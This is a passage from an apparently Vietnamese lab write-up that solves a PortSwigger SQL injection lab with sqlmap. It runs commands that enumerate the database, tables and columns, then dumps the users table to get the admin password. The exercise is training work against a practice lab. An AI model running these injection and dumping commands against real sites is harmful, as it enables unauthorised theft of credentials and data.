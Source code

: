### SQLMAP

- mình đã làm lại bài này với sqlmap
- đầu tiên mình chạy tấn công mặc định và tìm tên database có trong cơ sở dữ liệu bằng lệnh

```sql!
sqlmap -u https://0a680001038bc2a3848eb5d5009f00db.web-security-academy.net/filter?category=Lifestyle  --batch --dbs
```

- mình được database **public**

![ảnh](https://hackmd.io/_uploads/r1eaLCrha.png)

cùng với đó biết được lab dùng CSDL PostgreSQL và có thể tấn công bằng UNION query

![ảnh](https://hackmd.io/_uploads/H1i080S3T.png)

- mình thấy những bài trước username và password được lưu ở database public nên mình vào database này và xem các bảng bằng lệnh

```sql!
sqlmap -u https://0a680001038bc2a3848eb5d5009f00db.web-security-academy.net/filter?category=Lifestyle  --batch -D public --tables

```

![ảnh](https://hackmd.io/_uploads/H1UHw0Bha.png)

- mình được 2 bảng trong đó có **users**
- mình vào bảng này và thử xem các cột có trường password không bằng lệnh

```sql!
sqlmap -u https://0a680001038bc2a3848eb5d5009f00db.web-security-academy.net/filter?category=Lifestyle  --batch -D public -T users --columns
```

và mình thấy có cột **password**

![ảnh](https://hackmd.io/_uploads/rkyqvRBn6.png)

tiếp theo mình dump bảng này ra và đọc thông tin bằng lệnh

```sql!
sqlmap -u https://0a680001038bc2a3848eb5d5009f00db.web-security-academy.net/filter?category=Lifestyle  --batch -D public -T users --dump
```

![ảnh](https://hackmd.io/_uploads/r11avRS26.png)

mình được password của admin là **vqusjmqjv6jtctl3o5bo**

- đem đi đăng nhập và mình solve được lab này

![ảnh](https://hackmd.io/_uploads/SkJMOCr36.png)

## 11. Lab: Blind SQL injection with conditional responses
